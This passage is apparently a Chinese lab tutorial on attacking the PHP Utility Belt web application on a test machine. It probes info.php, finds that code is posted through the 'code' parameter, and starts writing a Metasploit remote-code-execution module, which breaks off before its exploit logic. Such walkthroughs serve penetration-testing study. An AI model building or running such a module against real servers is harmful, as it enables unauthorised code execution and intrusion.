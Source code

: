 我们查看这个文件的内容：

![img](https://img-blog.csdnimg.cn/20190117160142397.png)

## 访问info.php

我们在浏览器中输入：http://192.168.109.141/php-utility-belt/info.php 访问info.php。

![img](https://img-blog.csdnimg.cn/20190117160203928.png)

这里，会显示靶机上的所有用户，说明php-utility-belt存在漏洞。

## 进一步分析php-utility-belt的漏洞

在google或firefox浏览器按下F12键，通过对网页代码的分析，文本框中的数据是通过参数code进行post提交的。

![img](https://img-blog.csdnimg.cn/20190117160230265.png)

## 编写攻击脚本php_utility_belt_attack_by_binghe.rb

```
##
# Author 冰河
# Date 2019-01-17
# Description Metasploit渗透 php utility belt
##

require 'msf/core'

class Metasploit4 < Msf::Exploit::Remote
  include Msf:: Exploit::Remote::HttpClient
  
  def initialize(info = {})
    super(update_info(info,
      'Name'              => 'PHP Utility Belt Remote Code Execution',
      'Description'       => %q{
          This module exploits a remote code execution vulnerability in P
        },
       'Author'           =>
        [
          'binghe'
        ],
       
       'DisclosureDate'   => '2019-01-17',
       'Platform'         => 'php',
       'Payload'          =>
        {
          'Space'         => 2000,
          # 现在的漏洞在一个Web应用程序中，而不是在软件程序中，所以要将DisableNops的值设置为true以关闭攻击载荷中的NOP
          'DisableNops'   => true   
        },
       
       'Targets'          =>
        [
          ['PHP Utility Belt', {}]
        ],
       'DefaultTarget'   => 0))
    
    register_options(
      [
        OptString.new('TARGETURI', [true, 'The path to PHP Utility Belt', '/php-utility-belt/ajax.php']),
        OptString.new('CHECKURI', [false, 'Checking Perpose', '/php-utility-belt/info.php']),
```